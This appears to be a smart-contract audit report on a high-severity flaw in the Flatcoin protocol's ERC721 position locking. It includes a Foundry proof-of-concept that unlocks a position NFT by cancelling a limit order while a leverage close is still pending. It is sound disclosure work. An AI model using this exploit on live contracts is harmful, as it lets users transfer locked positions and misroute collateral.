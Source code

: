 Nutty Menthol Dog

high

# ERC721 locking mechanism does not work

## Summary
Creating a delayed order and limit order locks the ERC721 token representing the leverage position. However it can be unlocked before the execution of the order.
## Vulnerability Detail
When a user creates a delayed order for example: `announceLeverageClose`, their NFT is locked until the order is executed. However a user can also create a limit order using `announceLimitOrder` which will lock their NFT once again. Then they can call `cancelLimitOrder`and unlock their NFT before the execution of the leverage close. Therefore a user will be able to transfer this NFT.
PoC:
```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity 0.8.18;

import {LimitOrder} from "src/LimitOrder.sol";
import {FlatcoinStructs} from "src/libraries/FlatcoinStructs.sol";
import {FlatcoinErrors} from "src/libraries/FlatcoinErrors.sol";
import {ExpectRevert} from "../../helpers/ExpectRevert.sol";
import {OrderHelpers} from "../../helpers/OrderHelpers.sol";
import {ERC721LockableEnumerableUpgradeable} from "../../../src/misc/ERC721LockableEnumerableUpgradeable.sol";

import "forge-std/console2.sol";

contract LimitOrderTest is OrderHelpers, ExpectRevert {
    uint256 tokenId;
    uint256 keeperFee;

    function setUp() public override {
        super.setUp();

        uint256 stableDeposit = 100e18;
        uint256 collateralPrice = 1000e8;
        keeperFee = mockKeeperFee.getKeeperFee();

        announceAndExecuteDeposit({
            traderAccount: alice,
            keeperAccount: keeper,
            depositAmount: stableDeposit,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });

        announceAndExecuteLeverageOpen({
            traderAccount: alice,
            keeperAccount: keeper,
            margin: 10e18,
            additionalSize: 10e18,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });

        // second leverage position where tokenId > 0, to ensure proper checks later
        tokenId = announceAndExecuteLeverageOpen({
            traderAccount: alice,
            keeperAccount: keeper,
            margin: 10e18,
            additionalSize: 30e18,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });
    }

    function test_exploit() public {
        uint256 collateralPrice = 1000e8;
        //Alice anounces a limit order which locks the token
        vm.startPrank(alice);
        limitOrderProxy.announceLimitOrder({tokenId: tokenId, priceLowerThreshold: 900e18, priceUpperThreshold: 1100e18});
        //Alice announces leverage close which locks the token
        delayedOrderProxy.announceLeverageClose(tokenId, 1e18, mockKeeperFee.getKeeperFee());
        //Alice cancels the limit order which unlocks the token
        limitOrderProxy.cancelLimitOrder(tokenId);
        //The NFT is now unlocked, even though leverageClose is not executed
        console2.log(leverageModProxy.isLocked(tokenId));
        assertEq(leverageModProxy.isLocked(tokenId), false);
    }
}
```

## Impact
The way DelayedOrder is written, it gives the collateral back to the account which made an announcement instead of the holder of the position's NFT. This means if the NFT was integrated in other protocols, the owner of the NFT after an announcement can be different and hence the result (let's say position close order) will be that the collateral will be returned to the account which made the announcement. 
## Code Snippet
you can lock a locked token and unlock an unlocked token: https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/misc/ERC721LockableEnumerableUpgradeable.sol?plain=1#L32-47
Locking the tokens:
https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol?plain=1#L298
https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol?plain=1#L361
Unlocking the token using LimitOrder
https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol?plain=1#L87-97
## Tool used

Manual Review

## Recommendation
Check if there is a pending order with the token in the other contracts before unlocking it